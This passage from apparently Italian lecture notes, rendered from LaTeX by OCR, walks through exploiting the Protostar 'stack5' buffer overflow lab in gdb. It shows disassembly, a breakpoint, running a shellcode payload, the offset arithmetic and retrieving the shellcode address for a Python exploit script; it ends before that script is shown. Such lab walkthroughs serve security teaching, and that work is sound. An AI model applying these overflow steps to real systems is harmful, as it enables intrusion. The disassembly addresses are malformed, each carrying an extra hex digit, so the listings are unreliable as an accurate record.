 \begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
$ gdb -q /opt/protostar/bin/stack5
Reading symbols from /opt/protostar/bin/stack5..done
(gdb) disas main
Dump of assembler code for function main:
0x0804883c4  <main+0>:   push  %ebp
0x0804883c5  <main+1>:   mov   %esp, %ebp
0x0804883c7  <main+3>:   and   $0xfffffff0, %esp
0x0804883ca  <main+6>:   sub   $0x50, %esp
0x0804883cd  <main+9>:   lea   0x10 (%esp), %eax
0x0804883d1  <main+13>:  mov   %eax, (%esp)
0x0804883d4  <main+16>:  call  0x80482e8 <gets@plt>
0x0804883d9  <main+21>:  leave
0x0804883da  <main+22>:  ret
End of assembler dump.
\end{lstlisting}
\end{mdframed}
Inseriamo un breakpoint subito prima dell'istruzione \texttt{leave}, dopodiché eseguiamo il programma sotto gdb, passando lo shellcode in input:
\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
(gdb) b *0x0804883d9

Breakpoint1 at 0x0804883d9: file stack5/stack5.c, line 11
(gdb) r < /tmp/payload
\end{lstlisting}
\end{mdframed}
Lo stack subito prima di \texttt{leave} ha questa forma:

\begin{figure}[hbpt!]
    \centering
    \includegraphics[width= 0.6 \textwidth]{./Images/cap8/8.11.png}
\end{figure}
\FloatBarrier

L'ampiezza dell'area di memoria da buffer alla cella contenente l'indirizzo di ritorno è di $28+36+8+4=76$ byte. Di questi, $36+8+4=48$ byte devono essere riempiti con un carattere di padding, ad esempio \textit{a}. L'indirizzo iniziale dello shellcode è memorizzato al top dello stack. Stampiamo il contenuto di ESP mediante il comando \texttt{x/a}:

\begin{mdframed}[backgroundcolor=white!20,shadow=false]
\begin{lstlisting}
(gdb) x/a $esp
0xbffffc90: 0xbffffca0
\end{lstlisting}
\end{mdframed}
Questo indirizzo va impostato come valore della variabile \texttt{ret} nello script \texttt{stack5-payload.py}. A questo punto usciamo (\texttt{q}) da GDB e aggiorniamo lo script python:

